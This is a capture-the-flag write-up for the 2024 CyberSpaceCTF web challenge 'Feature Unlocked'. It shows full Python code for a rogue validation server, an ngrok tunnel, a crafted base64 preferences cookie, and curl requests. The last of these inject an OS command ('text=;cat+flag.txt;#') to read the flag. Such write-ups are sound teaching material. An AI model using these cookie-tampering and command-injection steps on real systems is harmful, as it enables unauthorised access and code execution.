 ```yaml
---
layout: post
title:  "CyberSpaceCTF - 2024 - Feature Unlocked Writeup"
description: Solution for Feature Unlocked challenge
tags: [CSCTF, CTF, 2024, Web, Writeup, Red Team, Offensive, Challenge]
---
```


# Challenge Description
```
Name: Feature Unlocked
Point: 50
Solves: 184
Author: cryptocat
---
The world's coolest app has a brand new feature! Too bad it's not released until after the CTF..

```

# Analysis
For this challenge, I thought it was an easy one until I read through the messy source code. The flag was hidden in the document root directory of this challenge, located at `/home/user/chroot/app`. <br>

We are provided with the following websites: <br>
The remaining time displayed at `/release` indicates the time left until *`the new feature`* is released: <br>

<kbd><img src=https://github.com/user-attachments/assets/7aedb7fd-e861-4cb6-9b22-069f268f15de></kbd> <br>

The next one is `/feature` with a clickable link that would redirect us back to `/release`, let's find out what's happening behind the scenes!<br> 

<kbd><img src=https://github.com/user-attachments/assets/93517c66-ae5f-4003-a2ab-b8d63b174e21></kbd>

# Source code analysis
Directory tree:
```bash
.
├── Dockerfile
├── flag.txt
├── nsjail.cfg
├── run.sh
└── src
    ├── app
    │   ├── __init__.py
    │   ├── main.py
    │   ├── static
    │   │   ├── css
    │   │   │   ├── animations.css
    │   │   │   └── styles.css
    │   │   └── images
    │   │       └── logo.png
    │   └── templates
    │       ├── base.html
    │       ├── feature.html
    │       ├── index.html
    │       └── release.html
    ├── requirements.txt
    ├── run.sh
    └── validation_server
        └── validation.py
```
At the top of `main.py`, we can see that server is using `URLSafeTimedSerializer` with a *random 16 bytes secret* for serialize and deserialize the `access_token`. `DEFAULT_PREFERENCES` cookie and `NEW_FEATURE_RELEASE` date: <br>
<kbd><img src=https://github.com/user-attachments/assets/391e7bec-ce68-406b-bf4b-42bd28901fb6></kbd>


At `main.py`, we got `/release` which would first check if the `access_token` cookie is presented and then only redirect us if the data value is `access_granted`. <br>
Next, we have an optional GET parameter `debug`. When this value set to true, the system will accept the overidding of validation_server from the `preferences` cookie and perform server validation. If the validation is true, we then will be redirected to `/release` with dumped `access_token` assigned in response header: <br> 
<kbd><img src=https://github.com/user-attachments/assets/7cb4aa50-4132-472b-985a-93d45cdfc92a></kbd> <br>

After delving into `validate_server`, I saw that it performs another validation through `validate_access()` and return the `date` later than `NEW_FEATURE_RELEASE` date:<br>
<kbd><img src=https://github.com/user-attachments/assets/2a7fb943-c982-4cdc-afb2-8c3c3f5b339a></kbd> <br>

The `validate_access()` is the last step of validation but this time it just performs token verification using `signature` received from the `validation_server`'s response: <br>
<kbd><img src=https://github.com/user-attachments/assets/e2f61fdf-b933-46af-93a9-2bb5be578b98></kbd> <br>

A potential OS Command injection found at `/feature` POST method if token deserialization data is `access_granted`, mean that we've got to get the `access_token` cookie to access this hidden feature: <br>
<kbd><img src=https://github.com/user-attachments/assets/7d2585dd-4dcd-48a0-bc69-ed6505adb56e></kbd>

Then I came up with an idea: <br>
> "What if the `validation_server` value in the `preferences` cookie is the URL of our self-hosted malicious server?"

# Setting up malcious validation server
Using the `validation.py`, we can fully host a validation server with the `date` value adjusted to be later than `NEW_FEATURE_RELEASE`, and then sign the token with a `hash object` including our `date` value. Full python script shown below:<br>
```python
from flask import Flask, jsonify
import time
from Crypto.Hash import SHA256
from Crypto.PublicKey import ECC
from Crypto.Signature import DSS

app = Flask(__name__)

key = ECC.generate(curve='p256')
pubkey = key.public_key().export_key(format='PEM')


@app.route('/pubkey', methods=['GET'])
def get_pubkey():
    return pubkey, 200, {'Content-Type': 'text/plain; charset=utf-8'}


@app.route('/', methods=['GET'])
def index():
    date = str(int(time.time()) + 7 * 24 * 60 * 60 * 69) # Add more dates here
    h = SHA256.new(date.encode('utf-8'))
    signature = DSS.new(key, 'fips-186-3').sign(h)

    return jsonify({
        'date': date,
        'signature': signature.hex()
    })


if __name__ == '__main__':
    app.run(host='127.0.0.1', port=8081)
```

Then setup a tunnel using ngrok: <br>
```bash
(monkeontheroof㉿DESKTOP-FLPUJ9V)-[~]
└─$ ngrok http 8081
```

With Burp Suite turned on, send `/release` to repeater and change the `preferences` cookie like this: <br>
```bash
(monkeontheroof㉿DESKTOP-FLPUJ9V)-[~]
└─$ echo '{"theme": "light", "language": "en", "validation_server": "YOUR_VALIDATION_SERVER_HERE"}' | base64 -w 0
```

Then send the GET request to `/release` with `debug` parameter set to `true`, also the modified `preferences` cookie including our malcious validation server: <br>
```bash
┌──(monkeontheroof㉿DESKTOP-FLPUJ9V)-[~]
└─$ curl -s -I https://feature-unlocked-web-challs.csc.tf/release?debug=true -b 'preferences=YOUR_B64_TOKEN'

HTTP/2 200
date: Fri, 06 Sep 2024 17:23:14 GMT
content-type: text/html; charset=utf-8
set-cookie: access_token=ImFjY2Vzc19ncmFudGVkIg.Zts6gg.PLMJ0Id-S1aNwWIUea7HZ7povoM; Secure; HttpOnly; Path=/ # access token dumped
...
```

Took the `access_token` cookie and send a POST request to `/feature` with our payload for the exploitation of OS Command injection: <br>
`curl -X POST https://feature-unlocked-web-challs.csc.tf/feature -d "text=;cat+flag.txt;#" -b "access_token=ImFjY2Vzc19ncmFudGVkIg.Zts_cw.zHs2yfq0altGN1yBnRKLcUzK1S0"` <br>

Flag: `CSCTF{d1d_y0u_71m3_7r4v3l_f0r_7h15_fl46?!}`

